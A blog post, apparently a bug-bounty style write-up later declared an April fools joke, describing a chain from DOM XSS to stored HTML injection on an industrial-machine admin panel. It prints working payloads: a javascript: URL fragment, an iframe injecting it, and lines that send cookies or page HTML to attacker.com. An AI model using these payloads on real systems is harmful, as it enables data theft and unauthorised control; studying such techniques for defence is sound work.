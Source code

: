 ```yaml
---
layout: post
title: From XSS to RCE
description: "I managed to executed
 system commands with XSS."
modified: 01-04-2019
tags: [xss]
image:
  path: /images/featured/xss-to-rce.png
  feature: /featured/xss-to-rce.png
---
```




About 3 days ago, I was recursively bruteforcing subdomains for a domain and I stumbled upon a domain that hosted an admin panel.
I guess it was my lucky day because it didn't require any authentication.
It a web interface to monitor and control some sort of industrial machines.
They might have thought that it's well hidden and it needs to be accessed a million times a day by every other employee so they kept it open to keep off the hassle.

I thought I hit the jackpot but then I realised I could just monitor the systems, I needed credentials to make the machines do anything.
<!--more-->
I really wanted to do more so I started to look for what else could be done.
10 minutes into testing and shit and XSStrike found a potenial DOM XSS vulnerability.
The vulnerable code was the following:

```javascript
if (location.hash) {
  if (location.hash.substring(1, 2) === "_") {
    var channel, url, hash = location.href.substring(location.href.indexOf("#") + 3), indexOf = hash.indexOf(",");
    if (indexOf == -1) {
      channel = hash;
    }
    else {
      channel = hash.substring(0, indexOf);
      url = decodeURIComponent(hash.substring(indexOf + 1));
    }
    switch (location.hash.substring(2, 3)) {
      case "2":
        // NameTransport local
        window.parent.parent.easyXDM.Fn.get(channel)(window.name);
        location.href = url + "#_4" + channel + ",";
        break;
      case "3":
        location.href = url + "#_4" + channel + ",";
        break;
      case "4":
        // NameTransport idle
        var fn = window.parent.easyXDM.Fn.get(channel + "_load");
        if (fn) {
          fn();
        }
        break;
    }
  }
}
```

XSStrike picked up that input from a source (`location.hash` in this case) was being supplied to a sink (`location.href` in this case), crafing the payload was upto me.
I finally came up with `#_3channel,javascript:alert(1)//`.

But as an attacker, I would need to send the link to someone who had credentials but I couldn't do it, I didn't have the permission to interact with the staff.
So I started to look for other things, got a bunch of useless CSRFs but at last I found what I needed the most, stored XSS.
There was a feature to include notes so employees can collaborate on things and it was vulnerable to XSS*. I shouldn't call it XSS because I wasn't actually able to execute JavaScript.

Backend was filtering event handlers based on `on[a-zA-Z]*` pattern, `<script`, `href` and `data` attributes and a few other things I tried. Without having the ability to execute JavaScript, it was plain boring HTML injection.

But hey! I had DOM XSS! I knew exactly what to do, I tried injecting `<iframe src="http://xx.yy.redacted.com/panel/main.html#_3channel,javascript:alert(1)//"` and it worked like a charm!
If there's a god, I am pretty sure he is determined to make my life harder than a morning wood because the cookies had the http_only flag :')
That wasn't much of problem because I could still dig deeper if I could see what an authorised person has access to but there was another problem, `script`s weren't allowed to make cross origin requests.
I would say **fuck** at this if I were you but I have said that enough times already.

I am not sure if it was public knowledge already but I discovered a way to access DOM, retrieve data and send it to my server bypassing all the restriction.
Yeah, we all know the `<img src="//attacker.com/?="+document.cookie>` trick but it doesn't work if you try to do `<img src="//attacker.com/?="+document.documentElement.innerHTML>` for obvious reasons.

So here's the trick, `img` tag can make requests to an external resource and the `script` tag can execute arbitrary JavaScript so we can grab the data we want with a `script` tag, create a new `img` element whose `src` has the juicy data in it's URL as `//attacker.com/?=juicy_data`.

Now the final payload had become this,

```javascript
#_3channel,javascript:(new Image()).src='//attacker.com/'%2Bdocument.documentElement.innerHTML//
```

To execute it, I added the following payload to a note

```javascript
<iframe src="http://xx.yy.redacted.com/panel/main.html#_3channel,javascript:(new Image()).src='//attacker.com/'%2Bdocument.documentElement.innerHTML//">
```

I hope you know what the above payload does.

Anyways, after tons of response from unathenticated users, I finally got one from an authenticated one. How did I know?
Well it didn't had the string `Log in XYZ...`.
Since the source was very long and couldn't be included in a single HTTP request, I had to `slice()` it which took more than hour but it was fruitful.
It had the endpoints to control various aspects of various machines.

That's it! I wrote a script to automate the process of creating a note that injects payload to executre given command when opened by an authenticated person.

![exploit](/images/featured/xss-to-rce.png)

One more thing. none of it happened, Happy april fools day :p

Anyways, Marvel is better than DC <3
